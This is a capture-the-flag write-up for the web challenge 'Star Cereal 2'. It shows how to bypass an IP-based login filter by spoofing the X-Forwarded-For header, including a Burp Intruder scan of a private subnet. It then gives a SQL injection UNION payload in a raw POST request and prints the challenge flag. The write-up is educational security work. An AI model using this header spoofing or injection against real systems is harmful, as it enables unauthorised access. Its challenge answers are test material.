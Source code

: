 ```yaml
---
description: 'Spoofable client IP address, SQL injection vulnerability'
---
```


# Star Cereal 2

## Description

Ha, that was sneaky! But I've patched the login so that people like you can't gain access anymore. Stop hacking us!

`http://20.198.209.142:55045`

_The flag is in the flag format: STC{...}_

**Author: zeyu2001**

## Solution

In `index.php`, notice the following comment

```markup
<!--
Star Cereal page by zeyu2001

TODO:
    1) URGENT - fix login vulnerability by disallowing external logins (done)
    2) Integrate admin console currently hosted at http://172.16.2.155
-->
```

Point 1\) is referring to the previous challenge. Point 2\) is interesting.

If we go to `login.php`, we get a 403 Forbidden Page:

```markup
<h1>Forbidden</h1>
<p>Only admins allowed to login.</p>
```

### Spoofable Client IP

We could deduce that perhaps the server filters requests by the client IP. 

A common security misconfiguration in implementing such a filter is the use of the [X-Forwarded-For header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For). This header is used for identifying the originating IP address of a client connecting to a web server through an HTTP proxy or a load balancer.

Note that HTTP request headers can be [easily spoofed](https://portswigger.net/kb/issues/00400110_spoofable-client-ip-address). Knowing that one of the internal IP addresses is 172.16.2.155, we may want to check the 172.16.2.0/24 subnet for valid client IPs.

If we do a scan \(e.g. using Burp Suite Intruder\) for the 172.16.2.0/24 subnet with the `X-Forwarded-For` header, we would find that if we set:

```http
X-Forwarded-For: 172.16.2.24
```

then we would see the login page.

### Burp Suite Intruder Scan

First, set the payload position as follows:

![](../../.gitbook/assets/screenshot-2021-07-24-at-2.07.01-pm.png)

Then, configure the payload as a list of numbers from 1 to 255.

![](../../.gitbook/assets/screenshot-2021-07-24-at-2.08.01-pm.png)

Run the attack. Sort the output by either the Status or Length columns. We will find that `X-Forwarded-For: 172.16.2.24` gives us a 200 OK response code, and shows us the login page.

![](../../.gitbook/assets/screenshot-2021-07-24-at-2.09.23-pm.png)



### SQL Injection

Once we have access to the login page, notice the login form fields.

```markup
<form action="/login.php" method="post">
	<div class="form-group">
		<label for="email">Email address</label>
		<input type="email" class="form-control" id="email" name="email" placeholder="Enter email">
	</div>
	<div class="form-group">
		<label for="pass">Password</label>
		<input type="pass" class="form-control" id="pass" name="pass" placeholder="Enter password">
	</div>
	<button type="submit" class="btn btn-primary">Submit</button>
</form>
```

We need to submit an `email` and a `pass` parameter. We can exploit SQL injection to get the flag.

```http
POST /login.php HTTP/1.1
Host: localhost:55043
X-Forwarded-For: 172.16.2.24

...

Content-Type: application/x-www-form-urlencoded
Content-Length: 51

email=test&pass=test' UNION SELECT 'test', 'test';#
```

The flag is `STC{w0w_you'r3_r3lly_a_l33t_h4x0r_bc1d4611be52117c9a8bb99bf572d6a7}`.

![](../../.gitbook/assets/screenshot-2021-07-24-at-2.18.39-pm.png)

